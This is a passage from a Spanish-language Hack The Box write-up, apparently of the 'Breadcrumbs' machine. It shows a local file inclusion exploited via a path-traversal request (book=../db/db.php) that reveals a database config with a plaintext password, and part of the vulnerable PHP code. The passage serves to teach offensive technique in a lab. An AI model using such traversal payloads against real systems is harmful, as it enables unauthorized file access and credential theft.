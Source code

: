 Ahora modificando el contenido podríamos probar a encontrar inicialmente el archivo `bookController.php` para ver que tan lejos estamos del directorio `/htdocs` y centrarnos...

> El propio output al poner una ruta equivocada nos indica donde estamos, **pero no me acordaba**.

Probando `../includes...` tenemos el output del archivo:

![316burp_searchDescBook_LFI_bookC](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/breadcrumbs/316burp_searchDescBook_LFI_bookC.png)

Un poco horrible el output :P, pero bueno, al menos confirmamos una inclusión local de archivos (**LFI**).

Viendo su contenido me acordé del archivo `db.php`, si vemos su contenido y lo intentamos hacer más bonito tenemos:

```php
book=../db/db.php&method=1
```

```php
<?php

$host = "localhost";
$port=3306;
$user="bread";
$password="jUli901";
$dbname="bread";

$con = new mysqli($host, $user, $password, $dbname, $port) or die ('Could not connect to the database server' . mysqli_connect_error());

?>
```

Nice, tenemos las credenciales de la base de datos de lo que parece ser el usuario `juliette` (si dice "bread" pero la password dice otra cosa :P)... Intentando rehusar esas contraseñas contra el servicio `SSH` y `mysql` no logramos nada. Sigamos jugando con el `LFI`...

**(Les dejo el contenido del archivo vulnerable para que le echen un ojo al problema:**

```php
<?php

if($_SERVER['REQUEST_METHOD'] == "POST"){
    $out = "";
    require '../db/db.php';
    $title = "";
    $author = "";
    if($_POST['method'] == 0){
        if($_POST['title'] != ""){
            $title = "%".$_POST['title']."%";
        }
        if($_POST['author'] != ""){
            $author = "%".$_POST['author']."%";
        }
        $query = "SELECT * FROM books WHERE title LIKE ? OR author LIKE ?";
```